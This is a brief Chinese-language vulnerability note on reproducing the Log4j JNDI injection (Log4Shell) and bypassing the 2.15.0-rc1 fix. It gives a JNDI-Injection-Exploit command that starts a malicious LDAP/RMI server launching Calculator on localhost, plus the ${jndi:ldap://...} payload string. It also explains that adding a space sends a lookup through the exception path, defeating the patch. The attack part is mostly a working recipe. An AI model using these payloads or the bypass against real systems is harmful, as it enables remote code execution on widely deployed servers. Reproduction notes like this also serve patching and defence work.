

## 复现

- 启动恶意LDAP / RMI 服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit


- 连接启动的恶意server

```
${jndi:ldap://127.0.0.1:1389/xxxxxx}
```


## 修复绕过细节

1. Apache官方的 2.15.0-rc1对漏洞进行了修复，对传入的 `${}` 进行了判断，不存在ldap/rmi这种才会进行lookup
2. 但是增加了一个功能，就是 判断`${}`有错误时，会进入 exception中，又会执行lookup，所以可以构造异常的poc，使其进入exception中，从而执行lookup
3. Poc，加一个空格就行了。。。

## 各大厂商都中招




更多影响面，参见 https://github.com/YfryTchsGD/Log4jAttackSurface